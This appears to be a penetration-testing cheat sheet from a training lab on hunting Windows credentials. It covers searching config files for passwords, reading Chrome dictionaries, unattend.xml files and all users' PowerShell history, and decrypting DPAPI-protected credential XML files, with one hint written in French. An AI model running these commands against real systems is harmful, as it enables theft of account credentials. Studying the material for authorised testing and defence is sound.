 # Credential Hunting

***

### <mark style="color:red;">Application Configuration Files</mark>

<mark style="color:green;">**Searching for Files**</mark>

{% code fullWidth="true" %}
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

findstr /SIM /C:"password" C:\Users\*.txt C:\Users\*.ini C:\Users\*.cfg C:\Users\*.config C:\Users\*.xml

```
{% endcode %}

***

### <mark style="color:red;">Dictionary Files</mark>

<mark style="color:green;">**Chrome Dictionary Files**</mark>

{% code fullWidth="true" %}
```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```
{% endcode %}

***

### <mark style="color:red;">Unattended Installation Files</mark>

<mark style="color:green;">**Unattend.xml**</mark>

```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

***

### <mark style="color:red;">PowerShell History File</mark>

<mark style="color:green;">**Command to**</mark>

{% code fullWidth="true" %}
```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt.
```
{% endcode %}

<mark style="color:green;">**Confirming PowerShell History Save Path**</mark>

{% hint style="warning" %}
As seen in the (handy) Windows Commands PDF, published by Microsoft [here](https://download.microsoft.com/download/5/8/9/58911986-D4AD-4695-BF63-F734CD4DF8F2/ws-commands.pdf), there are many commands which can pass credentials on the command line. We can see in the example below that the user-specified local administrative credentials to query the Application Event Log using [wevutil](https://ss64.com/nt/wevtutil.html).
{% endhint %}

{% code fullWidth="true" %}
```powershell
(Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
{% endcode %}

<mark style="color:green;">**Reading PowerShell History File**</mark>

{% code fullWidth="true" %}
```powershell
gc (Get-PSReadLineOption).HistorySavePath
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

***

### <mark style="color:red;">PowerShell Credentials</mark>

{% hint style="warning" %}
Les identifiants PowerShell sont souvent utilisés pour les scripts et les tâches d'automatisation comme moyen de stocker des identifiants cryptés de manière pratique. Les identifiants sont protégés par DPAPI, ce qui signifie généralement qu'ils ne peuvent être décryptés que par le même utilisateur sur le même ordinateur où ils ont été créés.

Prenons, par exemple, le script suivant `Connect-VC.ps1`, qu'un administrateur système a créé pour se connecter facilement à un serveur vCenter.
{% endhint %}

{% code fullWidth="true" %}
```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```
{% endcode %}

<mark style="color:green;">**Decrypting PowerShell Credentials**</mark>

{% hint style="info" %}
If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from `encrypted.xml`. The example below assumes the former.
{% endhint %}

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username

$credential.GetNetworkCredential().password
```

{% code fullWidth="true" %}
```powershell
Clear-Host
Set-Location C:\

$filepath = Get-ChildItem -Recurse -Filter pass.xml -ErrorAction SilentlyContinue | Select-Object -ExpandProperty FullName -First 1

if ($filepath) {
    $credential = Import-Clixml -Path $filepath
    $credential.GetNetworkCredential().username
    $credential.GetNetworkCredential().password
} else {
Write-Output “No pass.xml file found.”
}
```
{% endcode %}
